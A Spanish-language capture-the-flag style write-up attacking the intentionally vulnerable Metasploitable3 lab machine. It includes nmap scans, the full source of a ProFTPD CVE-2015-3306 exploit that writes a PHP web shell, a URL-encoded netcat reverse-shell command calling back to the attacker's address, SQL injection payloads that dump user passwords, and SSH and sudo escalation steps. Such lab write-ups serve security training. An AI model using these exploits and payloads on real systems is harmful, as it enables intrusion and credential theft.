






# Writeup de Metasploitable3

Autor: Xavier Quintero Carrejo

## Informacion general
- **Sistema Operativo:** [Linux]
- **Dificultad:** [Facil]
- **Direccion IP:** [192.168.19.117]


## Reconocimiento


## Escaneo de puertos

Ejecutamos el siguiente comando con nmap

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG puertos6 192.168.19.117
```
y luego ejecutamos el siguiente comandos para ver las versiones de los servicios

```bash
nmap -sCV -p21,22,80,445,631,3306,3500,6697,8080 -oN target 192.168.19.117
```
```
Nmap scan report for 192.168.19.117
Host is up (0.00022s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 2b:2e:1f:a4:54:26:87:76:12:26:59:58:0d:da:3b:04 (DSA)
|   2048 c9:ac:70:ef:f8:de:8b:a3:a3:44:ab:3d:32:0a:5c:6a (RSA)
|   256 c0:49:cc:18:7b:27:a4:07:0d:2a:0d:bb:42:4c:36:17 (ECDSA)
|_  256 a0:76:f3:76:f8:f0:70:4d:09:ca:e1:10:fd:a9:cc:0a (ED25519)
80/tcp   open  http        Apache httpd 2.4.7
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2020-10-29 19:37  chat/
| -     2011-07-27 20:17  drupal/
| 1.7K  2020-10-29 19:37  payroll_app.php
| -     2013-04-08 12:06  phpmyadmin/
|_
|_http-title: Index of /
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
631/tcp  open  ipp         CUPS 1.7
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: CUPS/1.7 IPP/2.1
|_http-title: Home - CUPS 1.7.2
| http-methods: 
|_  Potentially risky methods: PUT
3306/tcp open  mysql       MySQL (unauthorized)
3500/tcp open  http        WEBrick httpd 1.3.1 (Ruby 2.3.8 (2018-10-18))
|_http-server-header: WEBrick/1.3.1 (Ruby/2.3.8/2018-10-18)
|_http-title: Ruby on Rails: Welcome aboard
| http-robots.txt: 1 disallowed entry 
|_/
6697/tcp open  irc         UnrealIRCd
8080/tcp open  http        Jetty 8.1.7.v20120910
|_http-title: Error 404 - Not Found
|_http-server-header: Jetty(8.1.7.v20120910)
MAC Address: 08:00:27:08:26:61 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts: 127.0.0.1, METASPLOITABLE3-UB1404, irc.TestIRC.net; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1s, deviation: 2s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: metasploitable3-ub1404
|   NetBIOS computer name: METASPLOITABLE3-UB1404\x00
|   Domain name: \x00
|   FQDN: metasploitable3-ub1404
|_  System time: 2025-02-19T17:27:33+00:00
| smb2-time: 
|   date: 2025-02-19T17:27:34
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

## Explotacion ftp

Clonamos el siguiente repositorio

```bash
git clone https://github.com/t0kx/exploit-CVE-2015-3306
```
Y tendra el siguiente codigo en python
```python
#!/usr/bin/env python
# CVE-2015-3306 exploit by t0kx
# https://github.com/t0kx/exploit-CVE-2015-3306

import re
import socket
import requests
import argparse

class Exploit:
    def __init__(self, host, port, path):
        self.__sock = None
        self.__host = host
        self.__port = port
        self.__path = path

    def __connect(self):
        self.__sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.__sock.connect((self.__host, self.__port))
        self.__sock.recv(1024)

    def __exploit(self):
        payload = "<?php echo passthru($_GET['cmd']); ?>"
        self.__sock.send(b"site cpfr /proc/self/cmdline\n")
        self.__sock.recv(1024)
        self.__sock.send(("site cpto /tmp/." + payload + "\n").encode("utf-8"))
        self.__sock.recv(1024)
        self.__sock.send(("site cpfr /tmp/." + payload + "\n").encode("utf-8"))
        self.__sock.recv(1024)
        self.__sock.send(("site cpto "+ self.__path +"/backdoor.php\n").encode("utf-8"))

        if "Copy successful" in str(self.__sock.recv(1024)):
            print("[+] Target exploited, acessing shell at http://" + self.__host + "/backdoor.php")
            print("[+] Running whoami: " + self.__trigger())
            print("[+] Done")
        else:
            print("[!] Failed")

    def __trigger(self):
        data = requests.get("http://" + self.__host + "/backdoor.php?cmd=whoami")
        match = re.search('cpto /tmp/.([^"]+)', data.text)
        return match.group(0)[11::].replace("\n", "")

    def run(self):
        self.__connect()
        self.__exploit()

def main(args):
    print("[+] CVE-2015-3306 exploit by t0kx")
    print("[+] Exploiting " + args.host + ":" + args.port)

    exploit = Exploit(args.host, int(args.port), args.path)
    exploit.run()

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('--host', required=True)
    parser.add_argument('--port', required=True)
    parser.add_argument('--path', required=True)
    args = parser.parse_args()

    main(args)
```

Ejecutamos el siguiente comando

```bash
cd exploit-CVE-2015-3306 && python ./exploit.py --host 192.168.19.117 --port 21 --path "/var/www/html/"   
```
Ahora con netcat lo dejaremos en escucha por el puerto 9000
```bash
nc -lvnp 9000
```
Ponemos la siguiente url
`http://192.168.19.117/backdoor.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.19.125%209000%20%3E%2Ftmp%2Ff`


Y ya tenemos la reverse shell de la maquina


## SQL Injection

Para descubrir los usuarios y contraseñas entramos al siguiente enlace

`http://192.168.19.117/payroll_app.php` 

En el apartado usuario escribimos esto

```sql
'OR 1=1#
```
Y nos saldra los usuarios del sistema



Pero si ejecutamos el siguiente comando podemos ver los usuarios y contraseñas abajo
```sql
' OR 1=1 UNION SELECT null,null,username,password FROM users#
```



Entramos con ssh al servidor con ben_kenobi

```bash
ssh ben_kenobi@192.168.19.117
```



## Escalada de privilegios
Cambiamos de usuario a leia_organa
```bash
su leia_organa
```


Y como esta en el grupo sudo podemos hacer un `sudo su` y ser root

```bash
groups && sudo su
```

